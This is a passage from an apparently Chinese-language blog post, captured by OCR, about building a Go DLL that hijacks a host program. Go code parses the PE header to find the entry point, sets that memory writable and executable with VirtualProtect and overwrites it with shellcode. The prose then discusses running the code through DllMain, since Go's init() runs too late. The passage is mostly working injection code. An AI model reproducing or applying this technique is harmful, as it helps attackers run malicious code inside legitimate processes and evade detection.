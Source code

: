       17.     ptr := unsafe.Pointer(baseAddress + uintptr(0x3c))
    
      18.     v := (*uint32)(ptr)
    
      19.     ntHeaderOffset := *v
    
      20.     //ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(0x4))
    
      21.     //v2 := (*uint16)(ptr)
    
      22.     // 这个可以读取PE的架构信息，最后发现入口点的偏移都是固定的
    
      23.   
    
    
      24.     // x32和x64通用
    
      25.     ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(40))
    
      26.     ep := (*uint32)(ptr)
    
      27.     fmt.Println(ep, *ep)
    
      28.   
    
    
      29.     var entryPoint uintptr
    
      30.     entryPoint = baseAddress + uintptr(*ep)
    
      31.   
    
    
      32.     var oldfperms uint32
    
      33.     if !VirtualProtect(unsafe.Pointer(entryPoint), unsafe.Sizeof(uintptr(len(shellcode))), uint32(0x40), unsafe.Pointer(&oldfperms)) {
    
      34.         panic("Call to VirtualProtect failed!")
    
      35.     }
    
      36.   
    
    
      37.     WriteMemory(shellcode, entryPoint)
    
      38.   
    
    
      39.     if !VirtualProtect(unsafe.Pointer(entryPoint), uintptr(len(shellcode)), uint32(oldfperms), unsafe.Pointer(&oldfperms)) {
    
      40.         panic("Call to VirtualProtect failed!")
    
      41.     }
    
      42. }
    
    
    

### Go实现DllMain

DllMain是dll在创建或退出时的消息函数，要把shellcode写入PE的入口点，就必须在这里执行代码。但是Go里面没有这样相关的定义，搜索资料，有人说用
`init()`函数可以，我试了下， `init()`函数执行是在代码运行的时候加载的，也就是pe运行了，执行到了相关导出函数的时候，会先执行
`init()`代码，但是这个时候写shellcode到PE头部就已经没用了。
